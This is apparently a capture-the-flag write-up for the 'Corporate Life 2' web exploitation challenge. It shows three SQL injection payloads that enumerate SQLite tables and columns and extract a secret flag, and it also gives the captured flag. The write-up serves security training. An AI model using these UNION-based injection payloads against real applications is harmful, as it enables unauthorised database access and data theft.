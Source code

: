 ```yaml
---
title: "Corporate Life 2"
categories: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_IOiUPTqB}
---
```

> ~

---

Continuation of `Corporate Life 1`, where the same payload did not return a flag. Instead, i attempted to enumerate the database structure to locate relevant tables.

## Database Enumeration

To identify tables in the database, i used the following **SQL injection** payload:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table' --"
}
```

Once the table names were retrieved, i focused on the `flags` table and attempted to enumerate its columns using:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags') --"
}
```

## Extracting the Flag

After identifying the `secret_flag` column in the `flags` table, I extracted its contents with the following payload:

```json
{
  "filter": "1' UNION SELECT request_id, secret_flag, NULL, NULL, NULL, NULL FROM flags --"
}
```

This successfully revealed the flag.
